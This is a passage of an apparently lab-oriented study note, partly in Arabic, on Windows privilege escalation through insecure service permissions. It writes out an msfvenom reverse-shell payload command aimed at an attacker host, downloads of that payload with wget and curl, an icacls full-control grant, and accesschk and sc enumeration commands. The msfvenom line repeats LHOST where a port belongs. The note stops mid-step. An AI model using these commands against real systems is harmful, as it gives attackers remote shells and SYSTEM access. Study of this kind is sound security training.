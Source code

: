 ### Generate a Reverse Shell Executable..
in attacker machine
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=**AttackerIP** LHOST=8888 -f exe-service -o rev.exe
```

```
python3 -m http.server 80
```
in windows
```

cd C:\PrivEsc\  
wget [http://**MachineIP**/reverse.exe](http://machineip/rev.exe) -o reverse.exe

OR
curl http://attackbox:500/reverse.exe -o reverse.exe
```
change the group permission
```
icacls reverse.exe /grant Everyone:F
```

### Service Exploits — Insecure Service Permissions..
For list all services on the system running with local system privilege
(هاتلي كل ال serveses الشغاله ب صلاحيات System
```

sc query state= all | findstr /I "SERVICE_NAME STATE"

```
***Common Misconfigurations***
1-`SERVICE_CHANGE_CONFIG`: This permission allows a user to change the configuration of a service, including its executable path.
2-`SERVICE_ALL_ACCESS`: Grants full control over the service, including starting, stopping, and modifying it.
3-`WRITE_DAC`: Enables a user to modify the DACL (Discretionary Access Control List) of a service, potentially allowing them to change permissions for other users.
4-`WRITE_OWNER:` Allows a user to take ownership of the service, which can lead to further permission modifications.

```
accesschk.exe -uwcqv *

-u for filter the result 
-w to show the object has permission to write
-c to show the permisson is effective or no 
-q for filter the output to display only related with permisson
```

the command =>=> `daclsvc`
1-
```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```
انتبه لأي أذونات مثل `SERVICE_CHANGE_CONFIG` التي تسمح بتغيير تكوين الخدمة.
و ممكن يظهر غرها مثلا `SERVICE_CHANGE_CONFIG`او `SERVICE_ALL_ACCESS`او `WRITE_DAC`او `WRITE_OWNER`
__________
2- `sc qc daclsvc` => 
**تحقق مما إذا كانت الخدمة تعمل بامتيازات SYSTEM**:
